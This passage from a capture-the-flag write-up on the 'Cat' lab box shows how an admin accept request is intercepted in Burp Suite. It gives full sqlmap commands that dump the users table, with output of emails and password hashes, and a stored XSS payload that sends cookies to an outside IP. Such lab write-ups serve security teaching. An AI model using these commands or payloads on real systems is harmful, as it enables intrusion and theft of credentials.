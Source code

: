 Inside the `admin` panel, there is a list of registered cats with options to accept or reject them. We intercept the accept request using `Burp Suite`.

![burp-accept](../../img/Cat/burp-accept.png)

It is a `POST` request with the fields `catName` and `catId`. It is likely updating or inserting data into a database, so we can try an SQL injection using `sqlmap`.

To list the database tables:

```
sqlmap -u "http://cat.htb/accept_cat.php" --cookie 'PHPSESSID=5mqnpm2rc8q4aj5885fdrbs1vr' --data 'catName=a&catId=1' --tables --random-agent --level 5 --risk 3 --threads 10
```

To dump all data from the `users` table:

```
sqlmap -u "http://cat.htb/accept_cat.php" --cookie 'PHPSESSID=5mqnpm2rc8q4aj5885fdrbs1vr' --data 'catName=a&catId=1' -T users --dump --random-agent --level 5 --risk 3 --threads 10
```

```
+---------+-------------------------------+----------------------------------+---------------------------------------------------------------------------+
| user_id | email                         | password                         | username                                                                  |
+---------+-------------------------------+----------------------------------+---------------------------------------------------------------------------+
| 1       | axel2017@gmail.com            | d1bbba3670feb9435c9841e46e60ee2f | axel                                                                      |
| 2       | rosamendoza485@gmail.com      | ac369922d560f17d6eeb8b2c7dec498c | rosa                                                                      |
| 3       | robertcervantes2000@gmail.com | 42846631708f69c00ec0c0a8aa4a92ad | robert                                                                    |
| 4       | fabiancarachure2323@gmail.com | 39e153e825c4a3d314a0dc7f7475ddbe | fabian                                                                    |
| 5       | jerrysonC343@gmail.com        | 781593e060f8d065cd7281c5ec5b4b86 | jerryson                                                                  |
| 6       | larryP5656@gmail.com          | 1b6dce240bbfbc0905a664ad199e18f8 | larry                                                                     |
| 7       | royer.royer2323@gmail.com     | c598f6b844a36fa7836fba0835f1f6   | royer                                                                     |
| 8       | peterCC456@gmail.com          | e41ccefa439fc454f7eadbf1f139ed8a | peter                                                                     |
| 9       | angel234g@gmail.com           | 24a8ec003ac2e1b3c5953a6f95f8f565 | angel                                                                     |
| 10      | jobert2020@gmail.com          | 88e4dceccd48820cf77b5cf6c08698ad | jobert                                                                    |
| 11      | test@test.com                 | 098f6bcd4621d373cade4e832627b4f6 | <img src="#" onerror="this.src='http://10.10.14.191/'+document.cookie" /> |
+---------+-------------------------------+----------------------------------+---------------------------------------------------------------------------+
```
